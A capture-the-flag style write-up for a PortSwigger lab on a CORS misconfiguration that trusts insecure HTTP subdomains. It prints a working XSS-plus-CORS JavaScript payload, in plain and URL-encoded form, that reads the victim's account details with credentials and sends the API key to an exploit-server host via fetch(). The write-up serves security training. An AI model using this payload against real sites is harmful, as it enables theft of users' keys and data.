









<div align='center'>

# **CORS**

</div>

## **Lab:** CORS vulnerability with trusted insecure protocols

**Goal:** Get the administrator's API key

**The lab provide:** A credential wiener:peter

**Solution:**

1.  Log in as wiener, we see our API key



View the page source, we see a new endpoint /accountDetails



Go to that endpoint, we see that the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.



If we set the Origin Header to the lab's URL, then it will added into the Access-Control-Allow-Origin respond header.



If we set the Origin Header to other URL, then it will not added into the Access-Control-Allow-Origin respond header.



However, the subdomain of the lab's URL and http protocol is accepted by the server.




2.  When we check stock, the new window pops up and perform a GET request to the HTTP server 'http://sock.YOUR-LAB-ID.web-security-academy.net/?productId=1'



Moreover, the productId parameter is vulnerable to XSS



3.  We will use this payload:

```html
<script>
    document.location = "http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=1<script>
        var xhr = new XMLHttpRequest();
        var url = 'https://YOUR-LAB-ID.web-security-academy.net/accountDetails';
        xhr.onreadystatechange = function(){
            if (xhr.readyState == XMLHttpRequest.DONE){
                fetch('https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key=' + xhr.responseText);
            }
        };
        xhr.open('GET', url, true);
        xhr.withCredentials = true;
        xhr.send(null);
    </script>&storeId=1"
</script>
```

This payload will:
-   Send a GET request to the URL "http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=1". This will make the Origin request header in the next request
-   Send a GET request to the /accountDetails endpoint with the Origin header as the first URL
-   Send a GET request to the exploit server which will contains the respond from the /accountDetails endpoint in the parameter.

The request to the exploit server will be recorded in the access log

Therefore, if the payload is executed in someone's browser, the exploit server will have his/her's data.

URL encode the payload, we get

```html
<script>
    document.location = "http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=1<script>var xhr = new XMLHttpRequest();var url = 'https://YOUR-LAB-ID.web-security-academy.net/accountDetails';xhr.onreadystatechange = function(){if (xhr.readyState == XMLHttpRequest.DONE){fetch('https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key=' %2b xhr.responseText);}};xhr.open('GET', url, true);xhr.withCredentials = true;xhr.send(null);%3c/script>&storeId=1"
</script>
```

Let upload this payload to the exploit server and deliver it to the victim, we get his/her API key



